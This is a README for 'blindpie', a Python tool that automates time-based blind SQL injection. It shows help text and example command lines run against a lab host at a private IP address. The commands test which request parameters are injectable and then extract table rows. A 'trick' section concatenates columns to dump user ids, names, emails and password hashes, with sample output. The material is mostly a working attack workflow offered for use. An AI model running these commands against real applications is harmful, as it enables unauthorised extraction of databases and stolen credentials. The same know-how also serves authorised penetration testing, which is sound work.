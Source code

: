 # blindpie

`blindpie` is a simple Python script to automate time-based blind SQL injections.<br>
It should work fine injecting in SELECT, DELETE, and UPDATE queries. Injections in INSERT queries are supported only for parameters which are unquoted (numeric values).

## Usage

Use the `--help` command to show the help message:

```
 _     _ _           _       _      
| |   | (_)         | |     (_)     
| |__ | |_ _ __   __| |_ __  _  ___
| '_ \| | | '_ \ / _` | '_ \| |/ _ \
| |_) | | | | | | (_| | |_) | |  __/
|_.__/|_|_|_| |_|\__,_| .__/|_|\___|
                     | |           
                     |_|           

usage: blindpie.py [-h] -u URL -p PARAMS [PARAMS ...] -d DEFAULT [DEFAULT ...]
                 (--post | --get) [-M M] [-T T]
                 {test,attack} ...

A simple tool to automate time-based blind SQL injections.

positional arguments:
{test,attack}

optional arguments:
-h, --help            show this help message and exit
-u URL, --url URL     url of the target
-p PARAMS [PARAMS ...], --params PARAMS [PARAMS ...]
                      parameters for the requests
-d DEFAULT [DEFAULT ...], --default DEFAULT [DEFAULT ...]
                      default values for the parameters
--post                use method POST
--get                 use method GET
-M M                  attack mode (from 0, the least reliable but the
                      fastest, to 3, the most reliable but the slowest)
-T T                  number of threads to create when getting multiple rows

Note: the default values must be of the same type of data of the parameters
(use numbers for the parameters which are numbers, strings otherwise).
```

The script provides two modes of operation: the <i>test mode</i> and the <i>attack mode</i>.

### Test mode

The <i>test mode</i> is used to test which parameters of the GET/POST request could be vulnerable to SQL injection.

This is the help message for the <i>test mode</i>:

```
usage: blindpie.py test [-h] --test

optional arguments:
  -h, --help  show this help message and exit
  --test      test for vulnerabilities
```

Use the `--test` flag to test the parameters.

#### Example:

The page with url `192.168.0.104/sqli/time_based_blind_escaped.php` accepts POST requests with parameters `to` and `msg`, where the former is an integer and the latter is a string. The `-d` parameter is used to set the default value for the parameter of the request and to distinguish between numeric values (which in queries are unquoted) and strings (in queries are quoted). Use as default values strings if the parameter is a string, numeric values if the parameter is an integer, float, etc...

```
$ python3 blindpie.py -u http://192.168.0.104/sqli/time_based_blind_escaped.php -p to msg -d 1 message --post test --test
  _     _ _           _       _      
 | |   | (_)         | |     (_)     
 | |__ | |_ _ __   __| |_ __  _  ___
 | '_ \| | | '_ \ / _` | '_ \| |/ _ \
 | |_) | | | | | | (_| | |_) | |  __/
 |_.__/|_|_|_| |_|\__,_| .__/|_|\___|
                       | |           
                       |_|           

[*] avg response time is 0.019 sec (done in 0.049 sec)
[*] testing params: |████████████████████████████████████████| 100.0% complete
> RESULTS:
[*] to seems to be vulnerable
[*] msg doesn't seem to be vulnerable
[*] all done in 0.063 sec
```

The script tests each parameter of the request and shows if it seems to be vulnerable or not.

### Attack mode

The <i>attack mode</i> is used to extract data from the database by exploiting vulnerable parameters.

This is the help message for the <i>attack mode</i>:

```
usage: blindpie.py attack [-h] --param PARAM --table TABLE --column COLUMN
                          --row ROW [--rows ROWS]

optional arguments:
  -h, --help       show this help message and exit
  --param PARAM    vulnerable parameter to exploit
  --table TABLE    name of the table from which to select
  --column COLUMN  name of the column to select
  --row ROW        index of the row to select
  --rows ROWS      number of rows to select
```

#### Example:

The page with url `192.168.0.104/sqli/time_based_blind.php` accepts GET requests with a parameter named `email`, which is a string. The `-d` parameter is used to set the default value for the parameter. As said before, use as default values strings if the parameter is a string, numeric values if the parameter is an integer, float, etc...

In this case I'm going to extract the rows from 0 to 3 of the `first_name` column from the table `accounts` by exploiting the `email` parameter of the GET request:

```
$ python3 blindpie.py -u http://192.168.0.104/sqli/time_based_blind.php -p email -d email@ddress.com --get -M0 -T4 attack --table accounts --column first_name --param email --row 0 --rows 4
  _     _ _           _       _      
 | |   | (_)         | |     (_)     
 | |__ | |_ _ __   __| |_ __  _  ___
 | '_ \| | | '_ \ / _` | '_ \| |/ _ \
 | |_) | | | | | | (_| | |_) | |  __/
 |_.__/|_|_|_| |_|\__,_| .__/|_|\___|
                       | |           
                       |_|           

[*] avg response time is 0.031 sec (done in 0.096 sec)
[*] row 0 length is 6
[*] row 1 length is 4
[*] row 2 length is 6
[*] row 3 length is 6
[*] getting 4 rows: |████████████████████████████████████████| 100.0% complete (34.583 sec)
> RESULTS:
Arthur
Ford
Tricia
Zaphod
[*] all done in 34.583 sec
```

Note #1: use the `-M` parameter to set the reliability of the script. The value goes from 0 (the least reliable but the fastest) to 3 (the most reliable but the slowest).

Note #2: use the `-T` parameter to set the number of rows to extract concurrently.

The script will test each character of each row and will print the rows found.

### Trick

You can extract multiple columns at a time by concatenating the values. Use the `concat` function as the column name:

```
$ python3 blindpie.py -u http://192.168.0.104/sqli/time_based_blind.php -p email -d email@ddress.com --get -M0 -T10 attack --table accounts --column "concat(id, char(32), first_name, char(32), last_name, char(32), email, char(32), password)" --param email --row 0 --rows 10
  _     _ _           _       _
 | |   | (_)         | |     (_)
 | |__ | |_ _ __   __| |_ __  _  ___
 | '_ \| | | '_ \ / _` | '_ \| |/ _ \
 | |_) | | | | | | (_| | |_) | |  __/
 |_.__/|_|_|_| |_|\__,_| .__/|_|\___|
                       | |
                       |_|

[*] avg response time is 0.018 sec (done in 0.054 sec)
[*] row 0 length is 71
[*] row 1 length is 70
[*] row 2 length is 75
[*] row 3 length is 77
[*] row 4 seems to be empty
[*] row 5 seems to be empty
[*] row 6 seems to be empty
[*] row 7 seems to be empty
[*] row 8 seems to be empty
[*] row 9 seems to be empty
[*] getting 10 rows: |████████████████████████████████████████| 100.0% complete (373.877 sec)
> RESULTS:
1 Arthur Dent arthur@guide.com d00ee262cdcbe7543210bb85f6f1cac257b4e994
2 Ford Prefect ford@guide.com 30f5cc99c17426a0d28acf8905c6d776039ad022
3 Tricia McMillan tricia@guide.com bcb3358e273b5772ee0ae1799b612e13cc726b04
4 Zaphod Beeblebrox zaphod@guide.com 0c38530eaca4dbc0f49c459c0c52b362f14215c3
[empty]
[empty]
[empty]
[empty]
[empty]
[empty]
[*] all done in 373.877 sec
```

Note #1: a row can't be longer than `MAX_ROW_LENGTH` (by default is 128) or it will be ignored and considered empty.

Note #2: `char(32)` is the 'space' character.

## Authors

* **Alessio Vierti** - *Initial work*

## License

This project is licensed under the MIT License - see the [LICENSE.md](LICENSE.md) file for details
